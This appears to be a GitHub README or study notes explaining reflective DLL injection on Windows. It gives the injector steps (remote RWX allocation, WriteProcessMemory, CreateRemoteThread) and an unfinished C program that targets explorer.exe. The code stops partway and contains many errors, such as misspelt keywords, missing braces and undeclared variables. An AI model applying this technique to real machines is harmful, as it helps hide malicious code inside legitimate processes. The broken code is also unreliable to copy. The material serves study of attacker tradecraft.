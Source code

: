 # Reflective Injection

**Reflective injection is a technique that allows an attacker to  inject a DLL into a target process from memory rather than disk.** 

## Overview
Here we will have 2 processes:
- Target process(host process)
- Injector process
- and a DLL.
Inside a DLL there will be a exported function. Name of the exported function will be **ReflectiveLoader** or it can be whatever we want. 

In brief; injector process will write the dll in the address space of target process and then it will call the exported function(ReflectiveLoader) of the DLL. Then the exported function will load itself in the target address space.

## Steps to make injector process:
1. Take command line arguments
	- pid of target process **argv[1]**
	- absolute path of the dll to be injected **argv[2]**
	- name of the exported function of dll that will load the itself(dll) **argv[3]**
2. Using the *absolute path of DLL* open the dll with required access right and read it in heap memory of injector process
3. traverse the dll file copied into heap to find out the offset of the exported function(argv[3]).
4. save the offset of exported function in a variable. **If not able to find the offset then free the allocated heap memory and exit the program**.
5. else  
6. Using the *pid* open the target process with the required access rights
8. Using WIN API *VirtualAllocEx()* allocate a READ_WRITE_EXECUTABLE region in the target process.
9. using WIN API *WriteProcessMemory()* write the memory allocated in previous step with the dll present in the heap of injector process
10. VirtualAllocEx() function will save the first address of allocated memory space in a variable. After previous step that first address will be the base address of the dll.
11. adding up the base address of dll and the offset of exported function we will get the virtual address of exported function
12. This VA of exported function will be given to WIN API CreateRemoteThread() as the functionality to be executed the the thread.
  	
        
		DWORD ThreadId;
		HANDLE hThread = CreateRemoteThread(hProcess, NULL, 1024 * 1024, (LPTHREAD_START_ROUTINE)VAOfExportedFunction, NULL, (DWORD)NULL, &dwThreadId);
        	if (!hThread) {
        		printf("Error in creating thread");
        		return 1;
    		}
	    	WaitForSingleObject(hThread, -1);	

13.with this the injecter code will be completed

## code

    #include <stdio.h>
    #include <Windows.h>
    #include <string.h>
    
    typedef struct _PE_INFO {
      LPVOID base;
      BOOL Reloc; //If base relocation is needed
      LPVOID Get_Proc; //Address of GetProcAddress function 
      LPVOID Load_Dll; //Address of LoadLibraryA
    }PE_INFO, * LPE_INFO;
    
    
    // This function gives us the data of Target Process using which we will read its headers
    DWORD ReadTargetProcessMemory(char * ProcessName) {
        HANDLE hProcess;
        DWORD fileSize;
        LPVOID fileData = NULL;
        DWORD byteRead = NULL
        
        hProcess = CreateFileA(ProcessName, GENERIC_READ, FILE_SHARE_READ, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
	    if (file == INVALID_HANDLE_VALUE) {
            printf("Could not read file");
        }
        
        fileSize = GetFileSize(hProcess, NULL);
	    fileData = HeapAlloc(GetProcessHeap(), 0, fileSize);
        if (!fileData) {
            printf("Failed to allocate heap memory");
        }
        
        ReadFile(hProcess, fileData, fileSize, &bytesRead, NULL);
        
        return fileData;
    }
    
    
    // This function will find the pid of the target process. Name of the target process will be given by command line argument
    HANDLE FindProcess(const char* processName) {
      HANDLE hSnapshot, hProcess; 
      PROCESSENTRY32 pe;
      pe.dwSize = sizeof(pe);
      BOOL found = 0;
      
      if ((hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0)) == INVALID_HANDLE_VALUE)
        return 1;
      }
    
      if(!Process32First(hSnapshot, &pe)) {
        return 1;
      }
      
      do {
        if (!strcmp(pe.szExeFile , processName)) {
          found = 1;
          break;
        }
      } while (Process32Next(hSnapshot, &pe));
      
      if (!found) {
        printf("Processnot found\n");
        retrun 1;
      }
      
      if ((hProcess = OpenProcess(PROCESS_ALL_ACCESS, 0, pe.th32ProcessID)) == NULL) {    //take a look we are asing foe all access.
                                                                                          //This can give error for someother process
        printf("Failed to open process\n");
        return 1;
      }
      
      else 
      retrun hProcess;
    }
    
    
    int main(int argc, char* argv[]) {
   
      if (argc != 2){
        printf("usage: <DLL path>");
      }
      
      HANDLE hProcess;
      DWORD base;
      PIMAGE_DOS_HEADER dos;
      PIMAGE_NT_HEADERS nt;  
      PIMAGE_SECTION_HEADER sec;
      
      base = ReadTargetProcessMemory(argv[1]);
      if (!base) {
        printf("Failed to read file");
        retrun 1;
      }
      
      dos = (PIMAGE_DOS_HEADER)base;
      if (dos->e_magic != 23117) {
        printf("Invalid file");
        retrun 1;
      }
      
      nt = (PIMAGE_NT_HEADERS)(base + dos->e_lfanew);
      sec = (PIMAGE_SECTION_HEADER)((LPVOID)nt +24 + nt->FileHeader.SizeOfOptionalHeader);
      
      if (nt->OptionalHeader.Magic != 523) {
        printf("This is not a 64-bit PE file");
        retrun 1;
      }
      
      hProcess = FindProcess("explorer.exe");
      if (!hProcess) {
        printf("Failed to open process");
        retrun 1;
      }
      
      //6:27
      
    return 0;
    }
